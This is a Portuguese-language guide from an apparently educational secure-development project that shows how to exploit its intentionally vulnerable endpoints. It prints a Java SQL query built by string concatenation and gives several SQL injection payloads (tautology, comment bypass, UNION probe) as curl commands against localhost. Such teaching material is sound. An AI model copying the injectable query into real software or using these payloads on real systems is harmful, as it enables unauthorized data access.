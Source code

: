 # 🔓 Demonstração de Vulnerabilidades - SSDLC Project

Este documento mostra como **demonstrar e explorar** as vulnerabilidades intencionalmente incluídas neste projeto para fins educacionais.

> ⚠️ **AVISO**: Estas técnicas são para fins educacionais APENAS. Nunca use em sistemas de produção ou sem autorização explícita.

---

## 📋 Pré-requisitos

- Backend rodando em: `http://localhost:8080`
- Frontend rodando em: `http://localhost:3000`
- Ferramentas: Navegador (Chrome/Firefox) e `curl` (opcional)

---

## 🚨 Vulnerabilidades Demonstráveis

### 1. 💉 SQL Injection

**Localização:** `UserController.java` - método `searchUsers()`

**Código vulnerável:**
```java
String query = "SELECT username, email FROM users WHERE username LIKE '%" + name + "%'";
```

#### 🎯 Como explorar:

**Exploit 1: Ver todos os usuários**
```bash
# Via curl
curl "http://localhost:8080/users/search?name=%27%20OR%20%271%27=%271"

# Via navegador
http://localhost:8080/users/search?name=' OR '1'='1
```

**Exploit 2: Bypass de autenticação**
```bash
# Terminar a query prematuramente
curl "http://localhost:8080/users/search?name=%27%20OR%201=1--"

# Via navegador
http://localhost:8080/users/search?name=' OR 1=1--
```

**Exploit 3: Extrair estrutura do banco (SQL Error-based)**
```bash
curl "http://localhost:8080/users/search?name=%27%20UNION%20SELECT%20NULL,NULL--"
```
